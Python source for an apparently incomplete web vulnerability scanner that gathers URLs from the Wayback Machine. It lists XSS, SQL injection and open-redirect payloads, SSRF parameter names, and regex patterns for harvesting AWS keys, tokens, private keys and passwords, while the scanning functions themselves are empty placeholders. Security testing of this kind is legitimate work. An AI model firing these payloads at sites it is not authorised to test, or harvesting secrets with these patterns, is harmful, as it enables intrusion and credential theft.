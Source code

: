 import requests
import re
import argparse
from urllib.parse import urlparse, urlencode, urljoin, quote
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor
from tqdm import tqdm

# Payloads & patterns (shortened for brevity)
SSRF_PARAMS = ["url", "uri", "path", "continue", "data", "dest", "redirect", "next", "v", "image", "file", "link", "src", "load", "page", "callback", "return", "site", "open"]
XSS_PAYLOADS = [
    "<script>alert(1)</script>",
    "\"'><script>alert(1)</script>",
    "%3Cscript%3Ealert(1)%3C%2Fscript%3E",
    "\u003cscript\u003ealert(1)\u003c/script\u003e"
]
REDIRECT_PAYLOADS = [
    "https://google.com",
    "//google.com",
    "\\google.com",
    "/\\google.com",
    "%2f%2fgoogle.com"
]
SQLI_PAYLOADS = [
    "' OR '1'='1",
    "' OR 1=1--",
    "\" OR \"1\"=\"1",
    "admin' --",
    "' UNION SELECT null, version() --",
    "' AND SLEEP(5) --",
    "' OR 1=1#",
    "' OR 1=1/*",
    "' OR 'a'='a",
    "') OR ('1'='1--",
    "admin' #",
    "admin'/*"
]

SENSITIVE_PATTERNS = {
    "JWT": r"eyJ[A-Za-z0-9-_]+\.[A-Za-z0-9-_]+\.[A-Za-z0-9-_]+",
    "AWS Access Key": r"AKIA[0-9A-Z]{16}",
    "Google API Key": r"AIza[0-9A-Za-z-_]{35}",
    "Slack Token": r"xox[baprs]-[0-9a-zA-Z]{10,48}",
    "Private Key": r"-----BEGIN (RSA|DSA|EC|PGP|OPENSSH) PRIVATE KEY-----",
    "Email": r"[a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+",
    "Password": r"(?i)(password|pwd|pass)[\"'=:\s]+([a-zA-Z0-9@#%$!^&*]{6,})"
}

def get_wayback_urls(domain):
    urls = set()
    try:
        r = requests.get(f"http://web.archive.org/cdx/search/cdx?url={domain}/*&output=json&fl=original&collapse=urlkey", timeout=15)
        if r.status_code == 200:
            data = r.json()
            for entry in data[1:]:
                urls.add(entry[0])
    except Exception as e:
        print(f"[!] Wayback fetch error for {domain}: {e}")
    return list(urls)

# ... Include all other scanning functions here (scan_ssrf, scan_xss, scan_redirect, scan_sqli, scan_sensitive_info)...

def scan_url(url, blind, results):
    # Scanning logic calls each scanning function, append results to results dict/lists
    pass  # Placeholder for your actual scanning functions (copy from your latest script)

def main():
    parser = argparse.ArgumentParser(description="Vulnerability Scanner")
    group = parser.add_mutually_exclusive_group(required=True)
    group.add_argument("--list", help="File with list of domains")
    group.add_argument("domain", nargs="?", help="Single domain to scan")
    parser.add_argument("--blind", required=True, help="Blind SSRF URL")
    parser.add_argument("--threads", type=int, default=20, help="Number of threads (default: 20)")

    args = parser.parse_args()

    if args.list:
        with open(args.list) as f:
            domains = [line.strip() for line in f if line.strip()]
    elif args.domain:
        domains = [args.domain]
    else:
        print("Error: You must specify a domain or a --list file.")
        return

    all_urls = set()
    print("[*] Gathering URLs from wayback...")
    for domain in domains:
        all_urls.add(domain)
        all_urls.update(get_wayback_urls(domain))

    results = {
        "ssrf": [],
        "xss": [],
        "redirect": [],
        "sqli": [],
        "sensitive": []
    }

    print(f"[*] Starting scan on {len(all_urls)} URLs with {args.threads} threads...")
    with ThreadPoolExecutor(max_workers=args.threads) as executor:
        list(tqdm(executor.map(lambda u: scan_url(u, args.blind, results), all_urls), total=len(all_urls)))

    # After scanning print nicely formatted results
    if results["sqli"]:
        print("\n\033[1;31mSQL Injection Found:\033[0m")
        for entry in results["sqli"]:
            print(f"  - {entry}")
    if results["xss"]:
        print("\n\033[1;33mXSS Found:\033[0m")
        for entry in results["xss"]:
            print(f"  - {entry}")
    if results["redirect"]:
        print("\n\033[1;34mOpen Redirect Found:\033[0m")
        for entry in results["redirect"]:
            print(f"  - {entry}")
    if results["ssrf"]:
        print("\n\033[1;36mSSRF Found:\033[0m")
        for entry in results["ssrf"]:
            print(f"  - {entry}")
    if results["sensitive"]:
        print("\n\033[1;35mSensitive Information Found:\033[0m")
        for kind, url, match in results["sensitive"]:
            print(f"  - [{kind}] in {url} => {match}")

if __name__ == "__main__":
    main()
